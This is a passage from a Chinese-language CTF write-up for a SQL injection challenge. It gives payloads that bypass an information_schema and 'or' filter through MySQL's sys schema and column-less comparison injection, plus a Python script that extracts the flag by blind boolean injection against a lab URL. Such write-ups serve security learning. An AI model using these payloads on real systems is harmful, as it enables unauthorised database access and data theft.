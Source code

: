 
![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210191624571.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210191625027.png)

information_schema 被过滤了, 因为含有 or

恰好 mysql 版本为 5.7, 于是利用 sys 库中的表来跑表名

```sql
(ascii(substr((select group_concat(table_name) from sys.schema_table_statistics_with_buffer where table_schema=database()),1,1))='f')
```

列名跑不了, 尝试无列名注入, 这里用 ascii 比较盲注

基本形式如下, 列数是手工试出来的

```sql
((select 1,'f')>(select * from f1ag_1s_h3r3_hhhhh))
```

当然这个 payload 目前还有点问题, 比如不能区分大小写 (binary 含有 in 被过滤了)

(绕过 binary 过滤来区分大小写的参考文章 [https://nosec.org/home/detail/3830.html](https://nosec.org/home/detail/3830.html))

不过对于本题读取 flag 来说是不影响的

```python
import requests
import time

url = 'http://51adf432-9f40-474e-bd18-cfb31b37f4c3.node4.buuoj.cn:81/index.php'

#dicts = r'{}_,.-0123456789AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz'
dicts = r'-0123456789abcdefgl{}'

flag = ''

for i in range(1,99999):
    for s in dicts:
        time.sleep(0.2)
        #payload = '(ascii(substr((select group_concat(table_name) from sys.schema_table_statistics_with_buffer where table_schema=database()),{},1))={})'.format(i, ord(s))
        payload = "((select 1,'{}')>(select * from f1ag_1s_h3r3_hhhhh))".format(flag + s)
        print(s)
        res = requests.post(url,data={'id':payload})
        if 'Nu1L' in res.text:
            flag += dicts[dicts.index(s) -1]
            print('FOUND!!!',flag)
            break
```

注意 dicts 中的字符要按 ascii 顺序排列

## [网鼎杯 2018]Comment
